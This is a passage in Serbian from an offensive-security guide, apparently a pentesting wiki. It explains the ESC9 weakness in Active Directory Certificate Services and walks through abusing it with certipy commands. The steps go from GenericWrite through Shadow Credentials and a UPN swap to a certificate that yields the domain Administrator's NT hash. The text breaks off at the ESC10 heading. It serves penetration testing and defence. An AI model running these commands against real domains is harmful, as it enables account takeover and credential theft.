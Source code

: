 Uslovi pod kojima postavljanje ove zastavice postaje značajno uključuju:

* `StrongCertificateBindingEnforcement` nije podešen na `2` (podrazumevana vrednost je `1`), ili `CertificateMappingMethods` uključuje zastavicu `UPN`.
* Sertifikat je obeležen zastavicom `CT_FLAG_NO_SECURITY_EXTENSION` unutar postavke `msPKI-Enrollment-Flag`.
* Sertifikat sadrži bilo koju EKU (Enhanced Key Usage) za autentifikaciju klijenta.
* Postoje `GenericWrite` dozvole nad bilo kojim nalogom kako bi se kompromitovala drugačija.

### Zloupotreba scenarija

Pretpostavimo da `John@corp.local` ima `GenericWrite` dozvole nad `Jane@corp.local`, sa ciljem da kompromituje `Administrator@corp.local`. Šablon sertifikata `ESC9`, u koji `Jane@corp.local` ima dozvolu da se upiše, konfigurisan je sa zastavicom `CT_FLAG_NO_SECURITY_EXTENSION` u postavci `msPKI-Enrollment-Flag`.

Početno, `Jane`-in heš se dobija korišćenjem Shadow Credentials, zahvaljujući `John`-ovom `GenericWrite`:

```bash
certipy shadow auto -username John@corp.local -password Passw0rd! -account Jane
```

Nakon toga, `userPrincipalName` korisnika `Jane` je izmenjen u `Administrator`, svesno izostavljajući deo domena `@corp.local`:

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Administrator
```

Ova modifikacija ne krši ograničenja, s obzirom da `Administrator@corp.local` ostaje različit kao `userPrincipalName` od `Administrator`.

Nakon toga, šablona za sertifikat `ESC9`, označena kao ranjiva, se zahteva kao `Jane`:

```bash
certipy req -username jane@corp.local -hashes <hash> -ca corp-DC-CA -template ESC9
```

Primetno je da `userPrincipalName` sertifikata odražava `Administratora`, bez ikakvog "object SID"-a.

`userPrincipalName` za `Jane` se zatim vraća na njen originalni, `Jane@corp.local`:

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Jane@corp.local
```

Pokušaj autentifikacije sa izdatim sertifikatom sada daje NT heš za `Administrator@corp.local`. Komanda mora da uključuje `-domain <domain>` zbog nedostatka specifikacije domena u sertifikatu:

```bash
certipy auth -pfx adminitrator.pfx -domain corp.local
```

## Slabe mape sertifikata - ESC10

### Objašnjenje
